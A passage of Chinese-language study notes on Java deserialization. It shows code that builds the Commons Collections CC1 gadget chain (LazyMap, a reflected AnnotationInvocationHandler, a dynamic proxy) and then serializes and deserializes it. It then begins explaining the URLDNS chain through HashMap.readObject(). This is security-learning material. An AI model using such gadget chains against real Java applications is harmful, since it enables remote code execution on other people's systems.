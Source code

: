     // 2. 构造 LazyMap（同时也相当于创建被代理类）
    HashMap<Object, Object> map = new HashMap<>();
    LazyMap lazyMap = LazyMap.lazyMap(map, transformedChain);
    
    // 3. 把 AnnotationInvocationHandler 的构造函数搞出来
    // 通过反射，获取到 class 类对象
    Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    // 通过 class 类对象获取 class 类对象的构造函数
    Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
    // 取消其访问检查（即绕过 protected 和 private 关键字修饰，直接对其变量赋值），
    aIHClassDeclaredConstructor.setAccessible(true);
    
    // 4. 先搞出来一个调用处理器，这里第一个参数没有要求
    InvocationHandler invocationHandler = (InvocationHandler) aIHClassDeclaredConstructor.newInstance(Override.class, lazyMap);
    
    // 5. 创建代理对象（被代理类已经创建好了，就是 lazyMap）
    System.out.println(Arrays.toString(lazyMap.getClass().getInterfaces()));
    Map proxyMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
    
    // 6. 实例化并被序列化的对象（注意这里要传入代理对象，这样才能在其 readObject() 中调用代理对象的方法（即 entrySet()）
    Object toBeSerializedObj = aIHClassDeclaredConstructor.newInstance(Override.class, proxyMap);
    
    // 7. 序列化
    String serializedStr = serialize(toBeSerializedObj);
    unSerialize(serializedStr);
    ```

2. 结果如下：
    ![image-20230409140551064](image-20230409140551064.png)
    有个问题：反序列化的时候会报错。


## 5. 最简单的链 -- DNSLog 探测链

### 5.1 基本原理

1. 上述的入口类都是 `AnnotationInvocationHandler` 类，都是 CC 包里面的。如果是原生 JDK 中的就比较好，通用性高。

2. `HashMap<>` 就是一个复合条件的类，他重写了 `readObject()`，而且是 JDK 自带的。
    至于 `HashMap<>` 为什么重写 `readObject()`，详见：

    > https://juejin.cn/post/6844903954774491144

### 5.2 `HashMap<>.readObject()` 详解

1. 首先，`HashMap<>` 在 `readObject()` 中对**键**调用了 `hash(key)`：
    ![image-20230411211312716](image-20230411211312716.png)
2. 跟进 `hash()`：
    ![image-20230411211430238](image-20230411211430238.png)
    如果 key 不为空，那么会调用他的 `hashCode()` 方法。
